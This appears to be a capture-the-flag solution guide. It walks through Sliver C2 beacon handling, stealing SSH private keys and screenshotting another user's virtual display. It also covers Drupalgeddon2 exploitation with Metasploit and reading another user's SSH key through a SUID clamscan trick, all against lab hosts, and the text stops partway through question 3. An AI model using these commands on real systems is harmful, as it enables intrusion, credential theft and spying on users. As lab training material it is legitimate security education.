# Wake-A-Mole

*Solution Guide*

## Overview

In this challenge, competitors will experiment with Sliver C2 beacon contexts and exploit a vulnerable web server for initial access and privilege escalation. 

*NOTE: All tokens in this challenge make use of randomly-generated hexadecimal strings that will be unique on every deployment of the challenge. Your answers will not be the same as within this guide.*

## Question 1

*What is the token found on the display of userB on the proxy host?*

To begin, access the ``kali-workstation`` and ``ssh`` onto the ``sliver-c2`` device with the provided credentials in the challenge instructions.

```bash
ssh user@10.5.5.149
```

On the ``sliver-c2``, we will navigate to the directory and file mentioned in the challenge instructions at ``/home/user/logs/operations.log`` and read the file.



This file provides us with information of the target environment, specifically the two devices we will need to examine. 

Following the challenge instructions, we will start ``sliver`` with ``sudo sliver``. 



We will start an mTLS listener by running ``mtls`` to catch the beacon callback on the implanted device mentioned in the ``operations.log``. As mentioned in the challenge instructions, this can take a couple minutes to receive a connection. 



Once the session is received, we can attach ourselves by typing ``use <id>`` with ``<id>`` being the uniquely generated hex string that identifies each session (**this tab-completes!**)



We can issue command payloads from the Sliver framework such as ``ps`` which will neatly format running processes that can be cycled through following prompts.


Running ``ps -O -c`` will display the full commands being issued and will wrap long output in the terminal. Notably from the output, we see that two users, ``userA`` and ``userB`` have virtual displays running with ``Xvfb``. Additionally, we see that ``userB`` is actively viewing a file on their desktop with ``feh``. 


We also note that our implant is running in the context of ``userA``. We can spawn an interactive shell on the system by typing ``shell`` from the Sliver CLI and accepting the prompts.  



As ``userA`` we can learn more about our implant's context by enumerating the environment variables with ``export``. The ``DISPLAY`` variable for ``userA`` is set to :99. 



The notes in the ``operations.log`` mention escalating the implant. If we are able to have the implant run under the correct context, it is possible to hijack the display of ``userB`` and view the opened image file. 

We can attempt to change environment variables in the shell by using ``export DISPLAY=:100``.



Utilizing Sliver's ``screenshot`` functionality, we can see if we can capture an image. Unfortunately, we see the command ran but ``screenshot`` output 0 bytes.



We will need to manually re-implant the device with the right display already set. To do this, we can copy the ``id_rsa`` file of ``userA`` and logon to the machine directly to re-execute the beacon. Use the ``download`` command to write the remote file to the ``sliver-c2`` host. 



In another terminal on the ``kali-workstation``, we will verify our host IP address with ``ip addr``.


From the ``sliver-c2`` machine, we will send the file back to our Kali host with ``scp``. We will need to run the command with ``sudo`` as our Sliver server is operating as ``root``.

```bash
sudo scp /home/user/id_rsa user@<kali-ip>:/home/user
```



Back in the Kali terminal, we will verify receipt of the file  with ``ls -la`` (aliased as ``ll``) and modify ``id_rsa`` file to the appropriate permissions.  

```bash
chmod 600 ./id_rsa
```



Now we can directly login to the ``proxy`` target with ``ssh`` and accepting the prompts.

```bash
ssh -i id_rsa userA@10.1.1.80
```



On ``proxy``, as ``userA``, we will execute the beacon implant by also supplying the ``DISPLAY`` variable of ``userB``.

```bash
DISPLAY=:100 ./CRITICAL_PENSION
```



With the Sliver server still running on the ``sliver-c2``, we should see the new session being caught.



And we can attach to the new session with ``use``.



Now, running ``screenshot``, we can see that we wrote data in our capture!



To view the image, we can ``scp`` the screen capture back to Kali.

```bash
sudo scp /tmp/screenshot_proxy_<timestamp>.png user@<kali-ip>:/home/user
```



In the Kali terminal, we can verify receipt in our home directory with ``ls -la`` (aliased as ``ll``)



And using the built-in Thunar GUI, we can open the file to read token1.



In this instance, the value of token1 and answer to Question 1 is ``e180b1bb``.

## Question 2

*What is the token found within the web directory on the web server?*

To begin this section, we will refer back to the second target detailed in the ``operations.log`` file left by the previous operator. We can start with enumerating the target web server with the following Nmap scan:

```bash
nmap -sC -sV 10.1.1.51
```


The scan indicated there is an Apache HTTP server running on port 80 with a slew of directories exposed. We can use Firefox to browse to the target IP.



Discovered by our scan, we can browse to the ``/CHANGELOG.txt`` directory and learn that the web application is running Drupal version 7.57. 



We can launch the Metasploit framework to further exploit. Running ``msfconsole`` launches the program. 


	
Within Metasploit, we can run ``search Drupal`` to list exploit modules for our target version. 



To use the infamous ``drupalgedon2`` exploit, we select by running ``use 1``



In order to configure the exploit for use, we will set the target with ``set rhost 10.1.1.51``. We can verify our target is vulnerable with ``check``. And finally, we can run the exploit and trigger a Meterpreter shell with ``run``.


	
With successful exploitation, we spawn a Meterpreter shell. The challenge instructions indicate the second token is within the web directory so we will navigate to the web root to find the token in ``/var/www/token/token2.txt``.



In this instance, the value of token2 and answer to Question 2 is ``3b3bb3d3``.
## Question 3

*What is the token found on the user display on the web server?*

Within the Meterpreter shell on the ``webserver``, we can list the running processes with ``ps``. This output is noisy, but processes of interest include the execution of ClamAV, an Xvfb virtual display of ``:1`` ran by ``user`` with an image file being viewed.


We can spawn a shell on the system as the user ``www-data`` by typing ``shell``. This allows us to do more investigating, particularly around the ClamAV processes. 

As part of target enumeration, we can search for SUID binaries with the following command:

```bash
find / -perm -4000 -type f 2>/dev/null
```

This reveals that ``/usr/bin/clamscan`` has a SUID bit set to execute with ``root`` permissions. 


Publicly available research demonstrates that the binary ``clamscan``, if set with SUID permissions, can lead to file exposure. The following is an excerpt from an entry on [GTFOBins](https://gtfobins.github.io/gtfobins/clamscan/)

```bash
If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

sudo install -m =xs $(which clamscan) .

LFILE=file_to_read
TF=$(mktemp -d)
touch $TF/empty.yara
./clamscan --no-summary -d $TF -f $LFILE 2>&1 | sed -nE 's/^(.*): No such file or directory$/\1/p'
```

Of note, the GTFOBins entry also states: "Each line of the file is interpreted as a path and the content is leaked via error messages, thus this might not be suitable to read binary files. The output can optionally be cleaned using `sed`."

This can guide our attack path. We will need to read a file to provision us access the machine and can then exfiltrate the image being displayed by ``user``. 

We can point the targeted file as the ``id_rsa`` file of ``user``. Utilizing the following sequence of commands, we can output the file's contents to the console: 

```bash

LFILE=/home/user/.ssh/id_rsa
TF=$(mktemp -d)
touch $TF/empty.yara
clamscan --no-summary -d $TF -f $LFILE 2>&1 | sed -nE 's/^(.*): No such file or directory$/\1/p'
```



With the content displayed in the terminal, we can copy the output and paste into a file on our Kali host. Since we still have the ``id_rsa`` file from the ``proxy``, we will name this file ``id_rsa_2`` (the name does not impact functionality)


We can apply appropriate permissions with ``chmod 600 id_rsa_2`` and use the file to ``ssh`` to the ``webserver``

```bash
ssh -i id_rsa_2 user@10.1.1.51
```


As ``user`` on the ``webserver``, we can ``scp`` the file, ``forever-winter.png`` back to our Kali host.

